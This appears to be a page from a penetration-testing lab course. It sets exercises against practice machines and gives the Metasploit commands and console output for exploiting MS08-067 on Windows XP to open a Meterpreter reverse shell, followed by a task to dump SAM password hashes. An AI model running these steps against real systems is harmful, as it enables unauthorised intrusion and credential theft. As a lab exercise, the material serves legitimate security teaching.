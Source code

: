 Using the results from your active recon and information about services
in the database, figure out an alternate way to log
into `metasploitable` not involving Samba

## Exercise 3: Crack An NTLM-hashed Password

### Task 1

Using the **MS08-067** vulnerability, exploit and setup
a [Meterpreter](http://www.offensive-security.com/metasploit-unleashed/Meterpreter_Basics) session
with **windows**


{% capture text %}
<pre>
Try using the search command:\

      msf > search ms08_067

      Matching Modules
      ================

         Name                                 Disclosure Date          Rank   Description
         ----                                 ---------------          ----   -----------
         exploit/windows/smb/ms08_067_netapi  2008-10-28 00:00:00 UTC  great  MS08-067 Microsoft Server Service Relative Path Stack Corruption
</pre>
{% endcapture %}
{% include hint.html text=text %}


{% capture text %}
<pre>
      msf > use exploit/windows/smb/ms08_067_netapi
      msf exploit(ms08_067_netapi) > set RHOST windows
      RHOST => windows
      msf exploit(ms08_067_netapi) > run

      [*] Started reverse handler on 192.168.1.2:4444
      [*] Automatically detecting the target...
      [*] Fingerprint: Windows XP - Service Pack 3 - lang:English
      [*] Selected Target: Windows XP SP3 English (AlwaysOn NX)
      [*] Attempting to trigger the vulnerability...
      [*] Sending stage (769536 bytes) to 192.168.1.4
      [*] Meterpreter session 1 opened (192.168.1.2:4444 -> 192.168.1.4:1052) at 2014-11-21 18:15:20 -0800

      meterpreter >
</pre>
{% endcapture %}
{% include cheat.html text=text %}

### Task 2

Display the hashes out
of [SAM](http://en.wikipedia.org/wiki/Security_Accounts_Manager).
Suspend the Meterpreter session to the background
